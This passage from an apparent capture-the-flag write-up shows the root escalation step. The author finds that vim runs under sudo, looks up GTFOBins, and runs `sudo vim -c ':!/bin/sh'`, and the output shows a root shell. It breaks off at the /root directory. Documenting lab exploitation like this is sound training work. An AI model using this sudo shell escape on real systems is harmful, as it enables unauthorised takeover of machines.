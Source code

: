 <br>

## Root

Since we can run **vim** as root I check [**GTFOBins**](https://gtfobins.github.io/gtfobins/vim/) and see that we can easily escalate to root:

![](images/simplectf6.png)

I run `sudo vim -c ':!/bin/sh'`:

```
                               VIM - Vi IMproved

                                version 7.4.1689
                            by Bram Moolenaar et al.
            Modified by pkg-vim-maintainers@lists.alioth.debian.org
                  Vim is open source and freely distributable

                         Help poor children in Uganda!
                 type  :help iccf<Enter>       for information

                 type  :q<Enter>               to exit
                 type  :help<Enter>  or  <F1>  for on-line help
                 type  :help version7<Enter>   for version info# 
# 
# 
# whoami
root
```

That answers question 9.

In the **/root** directory we see:
